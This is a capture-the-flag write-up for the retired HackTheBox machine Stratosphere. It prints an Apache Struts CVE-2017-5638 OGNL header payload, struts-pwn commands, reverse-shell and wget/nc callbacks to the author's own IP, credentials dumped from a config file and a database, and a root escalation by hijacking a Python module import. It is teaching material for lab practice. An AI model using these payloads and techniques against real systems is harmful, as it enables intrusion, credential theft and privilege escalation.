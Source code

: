 # Stratosphere

This is the write-up for the box Stratosphere that got retired at the 1st September 2018.
My IP address was 10.10.14.34 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.64    stratosphere.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/stratosphere.nmap 10.10.10.64
```

```markdown
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

## Checking HTTP (Port 80)

The web page is a company website with nothing interesting on it and in the HTML source.
Lets search for hidden directories with **Gobuster**:
```markdown
gobuster -u http://10.10.10.64 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds the following directories:
- /manager
  - Login prompt for _Tomcat Manager Application_
- /Monitoring
  - Forwards to _/Monitoring/example/Welcome.action_ and there is a button to _"Sign On"_ or _"Register"_.

![Monitoring page](stratosphere_web-1.png)

The button _Register_ forwards to _/Monitoring/example/Register.action_ but there is only on sentence that it is under construction.
The button _Sign On_ forwards to _/Monitoring/example/Login_input.action_ where it is possible to input an username and a password.

![Sign on page](stratosphere_web-2.png)

This _.action_ extension is mostly used in [Apache Struts](https://struts.apache.org/core-developers/action-configuration.html) and are used to determine how to process requests.

### Enumerating and exploiting Apache Struts

In an [article from Qualys](https://blog.qualys.com/securitylabs/2017/03/14/apache-struts-cve-2017-5638-vulnerability-and-the-qualys-solution) they describe what kind of request to send to the server to see if it is vulnerable.
```markdown
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Qualys-Struts',3195*5088)}.multipart/form-data
```

If we send this, the box will execute the math and response with the result of it in the header:
```markdown
# Request
GET /Monitoring/example/Welcome.action HTTP/1.1
Host: 10.10.10.64
(...)
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('Test',**3195*5088**)}.multipart/form-data

# Response
HTTP/1.1 200
**Test: 16256160**
Content-Type: text/html;charset=UTF-8
```

It seems like the box is vulnerable and as stated in the article, lets see if we can use **CVE-2017-5638**.
There is an exploit script called [struts-pwn on Github](https://github.com/mazen160/struts-pwn):
```markdown
python3 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c id
```

This executes the `id` command and displays the output, which means we have command execution:
```markdown
uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)
```

Testing network connection and trying to start a reverse shell:
```markdown
python3 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c "bash -i >& /dev/tcp/10.10.14.34/9001 0>&1"

python3 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c "wget http://10.10.14.34/"

python3 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c "nc -u 10.10.14.34 53"
```

Every connection get closed immediately, so there is probably a firewall in the way.
In this case I will use a script to connect to the box with a web shell via HTTP request without callbacks to my local client. The script can be found in this repository.
```markdown
python3 stratosphere_webshell.py
```

This will use the exploit from **struts-pwn** and start a shell session as the user _tomcat8_.

## Privilege Escalation

As we are in the _/var/lib/tomcat8_ directory we can search for passwords in the configuration files.
In _/var/lib/tomcat8/db_connect_ there are two credentials:
```markdown
[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]       
user=admin
pass=admin
```

As the file is called _db_connect_ lets use the credentials on **MySQL**:
```markdown
mysql -h localhost -u ssn_admin -p

mysql -h localhost -u admin -p
```

Both credentials work but _ssn_admin_ does not have access to any interesting databases while _admin_ has:
```markdown
show databases;
use users;
show tables;
select * from accounts;
```
```markdown
+------------------+---------------------------+----------+
| fullName         | password                  | username |
+------------------+---------------------------+----------+
| Richard F. Smith | 9tc*rhKuG5TyXvUJOrE^5CK7k | richard  |
+------------------+---------------------------+----------+
```

In the _/etc/passwd_ there is a _richard_ user, so we can SSH into the server:
```markdown
ssh richard@10.10.10.64
```

### Privilege Escalation to root

The home directory of _richard_ has a Python script named _test.py_ of which root is the owner of and can write to it:
```markdown
-rwxr-x--- 1 root    richard 1507 Mar 19  2018 test.py
```

The script looks like a hash cracking challenge with different hash types to crack and when successful, execute _/root/success.py_ which we don't know what it does. The hash types are in this order to crack:
> MD5, SHA1, MD4, BLAKE512

As the hash type _BLAKE512_ is secure and a very long string, cracking it will take way too long.
This challenge is not meant to be done this way.

When looking at the `sudo` privileges of _richard_, it shows that he can run this script as sudo:
```markdown
sudo -l

# Output
User richard may run the following commands on stratosphere:
    (ALL) NOPASSWD: /usr/bin/python* /home/richard/test.py
```

The script loads one module in the beginning:
```markdown
import hashlib

(...)
```

By loading this module from the current working directory and running the script with sudo privileges, we can abuse this script to run any command as root.

Creating _hashlib.py_ in _/home/richard_ with the following contents to execute `bash`:
```python
import os

os.system("/bin/bash")
```

Running _test.py_ with `sudo`:
```markdown
sudo python /home/richard/test.py
```

Now it loads _hashlib.py_ from the current directory, runs the code and starts a shell as root!
